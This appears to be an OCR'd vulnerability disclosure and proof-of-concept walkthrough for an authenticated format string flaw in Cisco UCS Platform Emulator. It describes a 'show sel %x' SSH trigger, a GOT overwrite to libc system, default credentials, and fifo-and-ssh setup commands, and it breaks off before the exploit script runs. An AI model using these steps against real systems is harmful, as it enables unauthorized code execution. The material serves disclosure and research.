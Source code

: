 Authenticated remote code execution
Cisco UCS Platform Emulator is vulnerable to format string vulnerability that leads to remote code execution.

Cisco UCS Platform Emulator runs an SSH server by default, and users who log-in via ssh runs the following command:


```
show sel %x
```

Get the following response:


```
"Error: Invalid rack server value: ...somedigits.."
```

By execute the ssh “show sel %x” command we overwriting got entry for _ZN7clidcos15CommandEmulator16cli_param_filterEPKc function from libsamvsh.so with libc system.

## Proof of Concept

In order to exploit the vulnerability, please follow the following instructions:

Install ucspe on vm (setup all 3 network cards) with the following user and password:

Default ucspe user : ucspe
Default ucspe pass : ucspe
Run the ucspe and write down the ip address of the ucspe (visible in console “Connected to IP: ….”)

In this Proof of Concept we will use IP – 192.168.1.43

Open up two terminals on some other machine (kali for example).

On the first terminal:

Create poc directory, put poc4_ucspe_3.1.2e.py in the poc directory. change current directory to poc
Create fifo1:

```
mkfifo fifo1
```

Create output directory:”

```
mkdir output
```

Run ssh with stdin redirected from fifo1 and stdout redirected to output/log file:

```
tail -f fifo1 | ssh ucspe@192.168.1.43 > output/log

# use default credentials ucspe/ucspe
```
 
# use default credentials ucspe/ucspe
On the second terminal (terminal2):
